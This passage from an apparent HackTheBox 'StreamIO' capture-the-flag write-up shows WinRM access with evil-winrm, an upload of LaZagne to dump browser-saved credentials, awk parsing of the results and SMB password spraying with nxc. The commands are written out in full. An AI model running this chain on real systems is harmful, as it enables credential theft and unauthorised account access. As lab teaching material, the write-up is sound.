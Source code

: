 Jumping into the box, uploading and running the suggested tool ([`SharpWeb`](https://github.com/djhohnstein/SharpWeb)) does not work, since it does not seem to be maintained. Luckily, we can use [LaZagne](https://github.com/AlessandroZ/LaZagne) for the same purpose which comes back with more that one pair of credentials (Figure 36).

```bash
# Connecting to the machine via WinRM
evil-winrm -i 10.10.11.158 -u nikk37 -p $(cat nikk37_pass)
# Uploading executable to the target
upload LaZagne.exe 
# Searching browser credentials with LaZagne
.\LaZagne.exe browsers
```

<figure><img src="../../.gitbook/assets/streamio_lazagne.png" alt=""><figcaption><p>Figure 36: Enumerating browser credentials with <code>lazagne.exe</code>.</p></figcaption></figure>

### Password Spraying

After extracting the usernames and password from Lazagne's output and password-spraying the newly obtained credentials we got a hit back for `jdgodd`.

{% code overflow="wrap" %}
```bash
# Extracting usernames and password from lazagne's output
cat browser_creds | grep "Login" | awk '{print $2}' > browser_users
cat browser_creds | grep "Password" | grep -v "found" | awk '{print $2}' > browser_pass
# Password-spraying
nxc smb 10.10.11.158 -u browser_users -p browser_pass --continue-on-success | grep +
SMB         10.10.11.158    445    DC               [+] streamIO.htb\JDgodd:********
```
{% endcode %}


[^1]: SQL Injection
[^2]: Brute Force Attack
[^3]: Local File Inclusion
[^4]: Structured Query Language Injection
[^5]: Brute Force Attack
[^6]: Local File Inclusion
[^7]: Elevation of Privileges
[^8]: Domain Controller
[^9]: Fully Qualified Domain Name
[^10]: Structured Query Language injection
[^11]: Web Application Firewall
[^12]: Database Management System
[^13]: Local File Inclusion
[^14]: Remote Code Execution
[^15]: Domain Controllers